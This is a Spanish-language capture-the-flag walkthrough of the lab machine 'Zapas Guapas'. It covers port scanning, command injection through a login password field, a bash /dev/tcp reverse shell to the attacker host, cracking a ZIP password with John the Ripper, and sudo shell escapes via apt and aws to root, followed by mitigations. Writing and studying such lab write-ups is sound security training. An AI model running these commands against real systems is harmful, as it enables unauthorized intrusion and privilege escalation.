## Información General

| **Campo**                | **Detalle**         |
| ------------------------ | ------------------- |
| **Nombre de la máquina** | Zapas Guapas        |
| **Plataforma**           | TheHackersLabs      |
| **Dificultad**           | Linux               |
| **Sistema Operativo**    | Linux (Debian 12)   |
| **Servicios expuestos**  | SSH (22), HTTP (80) |

## Resumen del Ataque

La máquina aloja el sitio web "Zapasguapas". Al examinar el código fuente del formulario de inicio de sesión (`login.html`), se observa una vulnerabilidad crítica: el script invoca `run_command.php` ejecutando directamente el contenido del campo de contraseña como un comando del sistema. Aprovechando este vector de Ejecución Remota de Comandos (RCE), se obtiene una Reverse Shell como `www-data`. Durante la enumeración local se localiza el archivo `/opt/importante.zip`. Tras extraer el hash con `zip2john` y romper la contraseña con `john` y el diccionario `rockyou.txt`, se obtiene la clave del usuario `pronike`. Una vez dentro por SSH, la enumeración de `sudo -l` muestra que `pronike` puede ejecutar `/usr/bin/apt` como el usuario `proadidas`, lo que permite escalar lateralmente mediante GTFOBins (`apt changelog`). Finalmente, el usuario `proadidas` cuenta con permisos `sudo` sobre `/usr/bin/aws` como `root`, permitiendo obtener una shell con privilegios máximos invocando `sudo aws help`.

## Técnicas Usadas

- Reconocimiento de puertos y servicios con Nmap

- Fuzzing de directorios web con Gobuster
  
- Revisión de código fuente HTML/JS para identificación de RCE
 
- Explotación de RCE y establecimiento de Reverse Shell con Netcat
  
- Tratamiento e higienización de la TTY
 
- Extracción y craqueo de archivos comprimidos protegidos (`zip2john` / `John the Ripper`)
 
- Escalada de privilegios lateral abusando de permisos `sudo` sobre `apt` (GTFOBins)

- Escalada de privilegios a `root` abusando de permisos `sudo` sobre `aws` (GTFOBins)
 

## Desarrollo

### 1. Escaneo de puertos completo

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.156
```



### 2. Escaneo de versiones

```
nmap -p 22,80 -sC -sV -oN allports 192.168.241.156
```



### 3. Fuzzing de directorios

```
gobuster dir -u http://192.168.241.156/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -x txt,php,html -t 32
```



### 4. Revisión del código fuente de login.html

```
http://192.168.241.156/login.html
```



Al revisar el código JavaScript del formulario:



### 5. Explotación de RCE

El parámetro `password` es enviado a `run_command.php` y ejecuta directamente comandos en el sistema operativo.

Prueba de concepto:

- **Usuario:** `admin`
- **Contraseña:** `cat /etc/passwd` 



### 6. Obtención de Reverse Shell

Se introduce un comando Bash en la casilla de contraseña para enviar una shell reversa al equipo atacante:

```
bash -c "bash -i >& /dev/tcp/192.168.241.128/4444 0>&1"
```

Escucha en el atacante:

```
nc -lvnp 4444
```



### 7. Tratamiento de la TTY

```
script /dev/null -c bash
# Presionar Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

### 8. Enumeración local

Se explora el directorio `/home` y `/opt`:

```
www-data@zapasguapas:/home/pronike$ cat nota.txt 
```



En `/opt` se encuentra un archivo zip:

```
www-data@zapasguapas:/opt$ ls
```



### 9. Transferencia y craqueo de contraseña del archivo ZIP

En el servidor víctima:

```
python3 -m http.server
```

En el equipo atacante:

```
wget http://192.168.241.156:8000/importante.zip
zip2john importante.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```
Loaded 1 password hash (PKZIP [32/64])
hotstuff         (importante.zip/password.txt) 
```

Se descomprime el archivo con la clave `hotstuff`:

```
unzip importante.zip
cat password.txt
```



### 10. Acceso SSH como pronike

```
ssh pronike@192.168.241.156
```

### 11. Escalada lateral a proadidas (GTFOBins apt)

Se revisan los permisos sudo de `pronike`:

```
pronike@zapasguapas:~$ sudo -l
```



Abusando de `apt` para ejecutar una shell como `proadidas`:

```
sudo -u proadidas apt changelog apt
!/bin/bash
```

```
proadidas@zapasguapas:~$ whoami
```



### 12. Escalada de privilegios a root (GTFOBins aws)

Se revisan los permisos sudo de `proadidas`:

```
proadidas@zapasguapas:~$ sudo -l
```



Abusando del binario `aws` para spawnear una shell de `root`:

```
sudo aws help
!/bin/bash
```

```
root@zapasguapas:/home/proadidas# whoami
```



### 13. Captura de flags

```
cat /home/proadidas/user.txt
```



```
cat /root/root.txt
```



## Lecciones Aprendidas

- Ejecutar directamente entradas provenientes del usuario en el sistema operativo desde un script web genera vulnerabilidades de RCE de impacto crítico.

- El uso de contraseñas débiles en archivos ZIP comprimidos permite la recuperación de credenciales mediante ataques de fuerza bruta simples.

- Otorgar permisos `sudo` sobre binarios interactivos como `apt` o `aws` que cuentan con paginadores o ayuda integrada equivale a otorgar ejecución de comandos con privilegios elevados.

## Medidas de Mitigación

- Deshabilitar las funciones de ejecución de comandos en el servidor web y evitar procesar entradas sin sanitizar en la shell.

- Emplear contraseñas robustas y complejas para la protección de archivos comprimidos o claves de acceso.

- Aplicar el principio de mínimo privilegio en el archivo `/etc/sudoers` y evitar otorgar ejecuciones `NOPASSWD` sobre binarios listados en GTFOBins.

